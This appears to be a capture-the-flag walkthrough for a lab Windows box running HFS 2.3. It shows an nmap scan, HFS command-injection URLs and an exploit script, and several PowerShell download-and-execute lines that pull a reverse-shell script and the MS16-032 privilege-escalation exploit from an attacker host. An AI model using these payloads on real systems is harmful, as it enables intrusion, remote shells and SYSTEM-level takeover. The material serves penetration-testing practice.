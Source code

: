 nmap -p80 -sV -sC -Pn -T4 -oA 10.10.10.8 10.10.10.8
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 01:02 EDT
Nmap scan report for 10.10.10.8
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows




#for using script
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')"


#put on url also can
http://10.10.10.8/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.22.}

#adjust accordingly
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.22:8000/Invoke-PowerShellTcp.ps1').}



grep -i function Sherlock.ps1               
function Get-FileVersionInfo ($FilePath) {
function Get-InstalledSoftware($SoftwareName) {
function Get-Architecture {
function Get-CPUCoreCount {
function New-ExploitTable {
function Set-ExploitTable ($MSBulletin, $VulnStatus) {
function Get-Results {
function Find-AllVulns {
function Find-MS10015 {
function Find-MS10092 {
function Find-MS13053 {
function Find-MS13081 {
function Find-MS14058 {
function Find-MS15051 {
function Find-MS15078 {
function Find-MS16016 {
function Find-MS16032 {
function Find-MS16034 {
function Find-CVE20177199 {
function Find-MS16135 {



    __________
#Download from attacker webserver
IEX(New-Object Net.Webclient).downloadString('http://10.10.14.22:8000/Sherlock.ps1')


Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
___________
                        

“Appears Vulnerable”, MS16-032, MS16-034, and MS16-135.

IEX(New-Object Net.Webclient).downloadString('http://10.10.14.22:8000/exploit.ps1')


Privilege Escalation
0. Put this command at the bottom of the MS16032 exploit
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-PowerShellTcp.ps1')"

1. In current low privilege shell, download ms16-032 exploit then it will execute as system authority to invoke another shell with root access 
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.22:8000/Invoke-MS16032.ps1')


2 netcat listeners needed